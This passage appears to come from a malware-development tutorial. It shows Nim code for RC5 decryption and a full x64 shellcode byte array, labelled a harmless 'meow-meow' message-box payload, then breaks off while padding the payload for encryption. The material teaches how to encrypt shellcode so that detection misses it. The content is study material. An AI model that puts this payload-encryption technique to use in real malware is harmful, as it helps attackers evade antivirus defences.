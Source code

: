 Decryption is the exact reverse:    

```nim
proc decrypt(S: array[26, uint32], inout: var array[2, uint32]) =
  var A = inout[0]
  var B = inout[1]
  for j in countdown(12, 1):
    B = rotateRight(B - S[3], A) xor A
    A = rotateRight(A - S[2], B) xor B
  B -= S[1]
  A -= S[0]
  inout[0] = A
  inout[1] = B
```

We define a payload as a sequence of bytes. This is our payload. In this example I use `meow-meow` messagebox payload as usual:    

```nim
var data: seq[byte] = @[
  byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
]
```

We align the data to `8-byte` blocks (`64-bit`, as required by RC5):    

```nim
let paddedSize = ((dataSize + 7) and not 7)
```

Then we encrypt and decrypt in-place:    
